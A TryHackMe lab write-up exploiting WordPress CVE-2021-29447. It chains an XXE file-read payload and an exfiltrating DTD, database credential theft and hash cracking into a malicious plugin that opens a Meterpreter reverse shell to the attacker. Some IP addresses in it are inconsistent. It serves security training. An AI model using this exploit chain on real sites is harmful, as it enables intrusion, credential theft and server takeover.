

# CTF Writeup — WordPress CVE-2021-29447 (XXE to RCE)

> [!info] Room Info
> **Platform:** TryHackMe
> **Room:** [WordPress CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)
> **Vulnerability:** XML External Entity (XXE) injection in WordPress Media Library
> **Affected Versions:** WordPress 5.6 – 5.7
> **Patched Version:** WordPress 5.7.1
> **Exploit Chain:** XXE → Arbitrary File Read → Credential Extraction → DB Compromise → Admin Login → Malicious Plugin Upload → Reverse Shell (RCE)


---

## Phase 1: Reconnaissance

### 1.1 — Access the Target

Navigate to the target web application:

```
http://10.113.140.145/
```


The application is clearly a **WordPress** site. Even without explicit branding, the default theme and layout give it away. WordPress is one of the most popular CMS platforms and has a long history of CVEs — RCEs, path traversal, file upload, SQL injection, and more.

### 1.2 — Version Discovery via Page Source

**View Page Source** and search for the `meta name="generator"` tag to find the WordPress version:


```
WordPress 5.6.2
```

> [!tip] Quick Version Check
> In WordPress, the `<meta name="generator">` tag in the page source always reveals the version. You can also check the RSS feed, `readme.html`, or use WPScan.

### 1.3 — WPScan Enumeration

Run WPScan to gather detailed information about plugins, themes, and known issues:

```bash
wpscan --url http://10.113.140.145/ -e ap,at,u
```

Full WPScan output:

```
└─# wpscan --url http://10.113.140.145/           
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[+] URL: http://10.113.140.145/ [10.113.140.145]
[+] Started: Tue Sep  8 06:36:46 2026
[+] Command Line: wpscan --url http://10.113.140.145/
[+] Hostname: kali

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://10.113.140.145/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.113.140.145/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.113.140.145/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%

[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.113.140.145/index.php/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - http://10.113.140.145/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>

[+] WordPress theme in use: twentytwentyone
 | Location: http://10.113.140.145/wp-content/themes/twentytwentyone/
 | [!] The version is out of date, the latest version is 2.8
 | Style Name: Twenty Twenty-One
 | Version: 1.1 (80% confidence)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[+] Finished: Tue Sep  8 06:36:55 2026
[+] Requests Done: 31
[+] Elapsed time: 00:00:09
```

**Key findings:**
- **Server:** Apache/2.4.18 (Ubuntu)
- **WordPress Version:** 5.6.2 (Insecure)
- **Theme:** Twenty Twenty-One v1.1 (outdated)
- **Upload directory listing enabled** — interesting for later enumeration
- **No WPScan API token** — vulnerability data not shown (register at wpscan.com for free)

---

## Phase 2: Exploit Research

### 2.1 — Searching for CVEs

Google search:

```
WordPress 5.6.2 exploit
```

Found: **CVE-2021-29447** — WordPress XML parsing issue in the Media Library leading to XXE.

GitHub PoC: https://github.com/0xRar/CVE-2021-29447-PoC


> [!note] SearchSploit Limitation
> Searching `searchsploit wordpress 5.6.2` didn't return useful results because SearchSploit struggles with very specific version numbers. Broadening to `wordpress 5.6` or `5.7` returns too many unrelated results. For version-specific WordPress CVEs, **GitHub** and **Google** are more reliable than SearchSploit.

### 2.2 — Understanding the Exploit

**CVE-2021-29447** is an **XXE (XML External Entity)** vulnerability:
- WordPress's XML parser processes uploaded media files (specifically `.wav` files containing XML metadata)
- The parser interprets external entities in the **DTD (Document Type Definition)**
- An attacker can craft a malicious `.wav` file that triggers the parser to fetch and expose arbitrary server files
- Data is exfiltrated via a callback to the attacker's server, encoded with **Zlib + Base64**

**PoC tool usage:**

```
usage: PoC.py [-h] [-l LHOST] [-p PORT] [-f FILE]

options:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST  your server ip address e.g. 10.0.2.15
  -p PORT, --port PORT  your server port e.g. 1337
  -f FILE, --file FILE  system file to read e.g. /etc/passwd
```

---

## Phase 3: Exploiting XXE (Arbitrary File Read)

### 3.1 — Generate the Malicious Payload

Run the PoC script to target `/etc/passwd`:

```bash
python PoC.py -l 192.168.129.117 -p 4444 -f /etc/passwd
```

This generates two files:
- **`payload.wav`** — malicious WAV file containing the XXE payload
- **`evil.dtd`** — Document Type Definition hosted on the attacker's server

The DTD content:

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
    
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.113.140.145:4444/?p=%file;'>" >  
```

The script also starts a **PHP development server** on port 4444 to host `evil.dtd` and receive the exfiltrated data.

### 3.2 — Authenticate to WordPress

Navigate to the WordPress login page:

```
http://10.113.140.145//wp-login.php
```


Login with credentials provided by TryHackMe:

```
user: test-corp  
password: test
```


> [!note]
> The `test-corp` account has **media upload permissions**, which is all we need for this XXE exploit.

### 3.3 — Upload the Malicious WAV File

Navigate to **Media → Library → Add New** and upload `payload.wav`:


### 3.4 — Receive the Callback

Once uploaded, WordPress parses the WAV file's XML metadata, triggering the XXE chain:
1. WordPress parses `payload.wav` → finds external entity reference
2. Server makes a GET request to attacker's server for `evil.dtd`
3. `evil.dtd` instructs the parser to read `/etc/passwd` using `php://filter`
4. File contents are Zlib-compressed, Base64-encoded, and sent back as a URL parameter

The attacker's server logs show the callback:

```
[Tue Sep  8 06:52:33 2026] PHP 8.4.24 Development Server (http://0.0.0.0:4444) started
[Tue Sep  8 06:52:45 2026] 10.113.140.145:60132 Accepted
[Tue Sep  8 06:52:45 2026] 10.113.140.145:60132 [200]: GET /evil.dtd
[Tue Sep  8 06:52:45 2026] 10.113.140.145:60132 Closing
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60134 Accepted
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60134 [404]: GET /?p=hVTbjpswEH3fr+CxlYLM...
```


### 3.5 — Decode the Exfiltrated Data

The data arrives Zlib-compressed and Base64-encoded. Create a PHP decoder script:

```bash
gedit decode.php
```

**Template:**

```php
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

**With the actual data:**

```php
<?php echo zlib_decode(base64_decode('hVTbjpswEH3fr+CxlYLMLTc/blX1ZVO1m6qvlQNeYi3Y1IZc+vWd8RBCF1aVDZrxnDk+9gxYY1p+4REMiyaj90FpdhDu+FAIWRsNiBhG77DOWeYAcreYNpUplX7A1QtPYPj4PMhdHYBSGGixQp5mQToHVMZXy2Wace+yGylD96EUtUSmJV9FnBzPMzL/oawFilvxOOFospOwLBf5UTLvTvBVA/A1DDA82DXGVKxqillyVQF8A8ObPoGsCVbLM+rewvDmiJz8SUbX5SgmjnB6Z5RD/iSnseZyxaQUJ3nvVOR8PoeFaAWWJcU5LPhtwJurtchfO1QF5YHZuz6B7LmDVMphw6UbnDu4HqXL4AkWg53QopSWCDxsmq0s9kS6xQl2QWDbaUbeJKHUosWrzmKcX9ALHrsyfJaNsS3uvb+6VtbBB1HUSn+87X5glDlTO3MwBV4r9SW9+0UAaXkB6VLPqXd+qyJsFfQntXccYUUT3oeCHxACSTo/WqPVH9EqoxeLBfdn7EH0BbyIysmBUsv2bOyrZ4RPNUoHxq8U6a+3BmVv+aDnWvUyx2qlM9VJetYEnmxgfaaInXDdUmbYDp0Lh54EhXG0HPgeOxd8w9h/DgsX6bMzeDacs6OpJevXR8hfomk9btkX6E1p7kiohIN7AW0eDz8H+MDubVVgYATvOlUUHrkGZMxJK62Olbbdhaob0evTz89hEiVxmGyzbO0PSdIReP/dOnck9s2g+6bEh2Z+O1f3u/IpWxC05rvr/vtTsJf2Vpx3zv0X')); ?>
```

Run the decoder:

```bash
php decode.php
```

**Output — `/etc/passwd`:**

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
stux:x:1000:1000:CVE-2021-29447,,,:/home/stux:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
```

**Key finding:** User `stux` (UID 1000) with `/bin/bash` — a real user account. Also confirms MySQL is running on this system.

---

## Phase 4: Reading wp-config.php (Database Credentials)

### 4.1 — Target the WordPress Config File

The XXE gives us **arbitrary file read**. To escalate, we read `wp-config.php` which contains database credentials:

```bash
python PoC.py -l 192.168.129.117 -p 4444 -f /var/www/html/wp-config.php
```

Upload the new `payload.wav` to the Media Library again, then receive the new Base64 callback:


### 4.2 — Decode wp-config.php

Replace the Base64 string in `decode.php` with the new one and run:

```bash
gedit decode.php
php decode.php
```

**Output — `wp-config.php`:**

```php
<?php
/**
 * The base configuration for WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb2' );

/** MySQL database username */
define( 'DB_USER', 'thedarktangent' );

/** MySQL database password */
define( 'DB_PASSWORD', 'sUp3rS3cret132' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**
 * Authentication Unique Keys and Salts.
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

$table_prefix = 'wptry_';

define( 'WP_DEBUG', false );
define('WP_HOME', false);
define('WP_SITEURL', false);

if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}
require_once ABSPATH . 'wp-settings.php';
```

### 4.3 — Extracted Credentials

```
DB_NAME:     wordpressdb2
DB_USER:     thedarktangent
DB_PASSWORD: sUp3rS3cret132
```

> [!important] Escalation Logic
> The XXE only gives us **read** access. To get **write/RCE**, we chain the file read to extract credentials from known config files (like `wp-config.php`), then use those credentials to access other services (MySQL, SSH, etc.).

---

## Phase 5: Database Compromise

### 5.1 — Verify MySQL is Remotely Accessible

```bash
nmap -sV -p 3306 10.113.140.145
```

```
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.7.33-0ubuntu0.16.04.1
```

✅ MySQL port 3306 is open and accessible remotely.

### 5.2 — Connect to MySQL

```bash
mysql -h 10.113.140.145 -u thedarktangent -p --skip-ssl
```

> [!warning] SSL Error Fix
> The initial connection attempt failed with `ERROR 2026 (HY000): TLS/SSL error: Certificate verification failure`. Adding `--skip-ssl` bypasses the untrusted certificate check (acceptable for a CTF lab).

Enter password: `sUp3rS3cret132`

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 66
Server version: 5.7.33-0ubuntu0.16.04.1 (Ubuntu)

MySQL [(none)]> 
```

✅ Successfully logged into the database remotely.

### 5.3 — Enumerate the Database

**List databases:**

```sql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpressdb2       |
+--------------------+
5 rows in set (0.162 sec)
```

**Select the WordPress database and list tables:**

```sql
MySQL [(none)]> use wordpressdb2;
Database changed

MySQL [wordpressdb2]> show tables;
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
| wptry_usermeta           |
| wptry_users              |
+--------------------------+
12 rows in set (0.163 sec)
```

> [!note]
> Table prefix is `wptry_` (as seen in `wp-config.php`'s `$table_prefix`).

### 5.4 — Extract User Credentials

```sql
MySQL [wordpressdb2]> select * from wptry_users;
```

```
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url                         | user_registered     | user_activation_key                           | user_status | display_name     |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
|  1 | corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001      | corp-001@fakemail.com        | http://192.168.85.131/wordpress2 | 2021-05-26 23:35:28 |                                               |           0 | corp-001         |
|  2 | test-corp  | $P$Bk3Zzr8rb.5dimh99TRE1krX8X85eR0 | test-corp     | test-corp@tryhackme.fakemail |                                  | 2021-05-26 23:47:32 | 1622072852:$P$BJWv.2ehT6U5Ndg/xmFlLobPl37Xno0 |           0 | Corporation Test |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
2 rows in set (0.161 sec)
```


**User ID 1 (admin) hash:**

```
$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1
```

---

## Phase 6: Password Cracking

### 6.1 — Identify the Hash Type

```bash
hash-identifier
```

```
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #########################################################################
--------------------------------------------------
 HASH: $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```

**Hash type:** WordPress phpass (`$P$` prefix) — a relatively weak hash.

### 6.2 — Crack with John the Ripper

Save the hash to a file and crack:

```bash
nano hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
teddybear        (?)     
1g 0:00:00:00 DONE (2026-09-08 08:04) 16.66g/s 12800p/s 12800c/s 12800C/s jeffrey..james1
Session completed. 
```

**Cracked password:**

```
teddybear
```

> [!tip]
> WordPress phpass (`$P$`) is a weak hash format, especially in older WordPress versions. Common passwords like `teddybear` are cracked almost instantly with `rockyou.txt`.

---

## Phase 7: Admin Access & Reverse Shell

### 7.1 — Login as WordPress Admin

Since user ID 1 (`corp-001`) is the administrator, log into WordPress:

```
URL:      http://10.113.140.145/wp-login.php
Username: corp-001
Password: teddybear
```


✅ Logged in as administrator with full dashboard access.

### 7.2 — Generate a Malicious WordPress Plugin

Search for a malicious plugin tool:

```
wordpress malicious plugin github
```

Found: https://github.com/wetw0rk/malicious-wordpress-plugin


Download the tool and generate the malicious plugin:

```bash
python wordpwn.py 192.168.129.117 4444 Y
```

- **LHOST:** Attacker's Kali IP (where the reverse shell connects back)
- **LPORT:** 4444
- **Handler (Y):** Automatically launches a Metasploit reverse TCP handler

```
[*] Checking if msfvenom installed
[+] msfvenom installed
[+] Generating plugin script
[+] Writing plugin script to file
[+] Generating webshell payload
[+] Writing plugin script to file
[+] Generating payload To file
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1512 (iteration=0)
php/base64 chosen with final size 1512
Payload size: 1512 bytes

[+] Writing files to zip
[+] Cleaning up files
[+] URL to upload the plugin: http://(target)/wp-admin/plugin-install.php?tab=upload
[+] How to trigger the reverse shell : 
      ->   http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php
      ->   http://(target)/wp-content/plugins/malicious/QwertyRocks.php
      ->   http://(target)/wp-content/plugins/malicious/SWebTheme.php?cmd=ls
[+] Launching handler
```

The Metasploit handler starts automatically:

```
resource (wordpress.rc)> use exploit/multi/handler
resource (wordpress.rc)> set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
resource (wordpress.rc)> set LHOST 192.168.129.117
LHOST => 192.168.129.117
resource (wordpress.rc)> set LPORT 4444
LPORT => 4444
resource (wordpress.rc)> exploit
[*] Started reverse TCP handler on 192.168.129.117:4444 
```

**Generated files:**

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ls                            
malicious.zip wordpress.rc  wordpwn.py
```


### 7.3 — Upload & Activate the Malicious Plugin

1. In WordPress admin, go to **Plugins → Add New → Upload Plugin**
2. Upload `malicious.zip`
3. **Activate** the plugin


### 7.4 — Trigger the Reverse Shell

Navigate to one of the trigger URLs to execute the payload:

```
http://10.114.130.167/wp-content/plugins/malicious/wetw0rk_maybe.php
```

The Meterpreter session is established on the handler. ✅

> [!note] About the Plugin Method
> Uploading a malicious plugin is **not a vulnerability** — it's legitimate WordPress functionality. An attacker misuses admin-level features to execute arbitrary PHP on the server. This is why protecting admin credentials is critical.

---

## Phase 8: Post-Exploitation — Capturing the Flag

### 8.1 — Drop into a System Shell

From the Meterpreter session:

```
shell
```

### 8.2 — Navigate to the Flag

```bash
cd /home
ls -al

cd stux
ls -al

cd flag
ls -al

cat flag.txt
```

**Flag:**

```
thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}
```

---

## Room Answers

| # | Question | Answer |
|---|----------|--------|
| 1 | What is the name of the database for WordPress? | `wordpressdb2` |
| 2 | What are the credentials you found? (user:password) | `thedarktangent:sUp3rS3cret132` |
| 3 | What is the DBMS installed on the server? | `mysql` |
| 4 | What is the DBMS version? | `5.7.33` |
| 5 | What port is the DBMS running on? | `3306` |
| 6 | Encrypted password for user ID 1? | `$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1` |
| 7 | Password in plain text? | `teddybear` |
| 8 | Compromise the machine and locate flag.txt | `thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}` |

---

## Attack Chain Summary



---

## Lessons Learned

> [!important] Key Takeaways
> 1. **XXE ≠ Dead End** — Even "just" a file read vulnerability can be chained to full RCE by reading config files containing credentials
> 2. **wp-config.php is gold** — Always read this file when you have arbitrary file read on a WordPress site; it contains DB credentials in plaintext
> 3. **Credential reuse** — Database credentials extracted from config files can unlock remote database access, exposing user password hashes
> 4. **Weak hashes** — WordPress phpass (`$P$`) is crackable in seconds with `rockyou.txt`
> 5. **Admin = Game Over** — WordPress admin can upload arbitrary PHP via plugins, which is equivalent to RCE
> 6. **Methodology matters** — The full chain (XXE → File Read → DB Creds → Hash Crack → Admin → Plugin → Shell) demonstrates how initial access often requires chaining multiple lower-severity findings
> 7. **SearchSploit has limits** — For specific WordPress version CVEs, GitHub and Google are often more reliable than `searchsploit`
> 8. **`--skip-ssl`** — When connecting to MySQL with an untrusted certificate, use `--skip-ssl` to bypass the TLS check
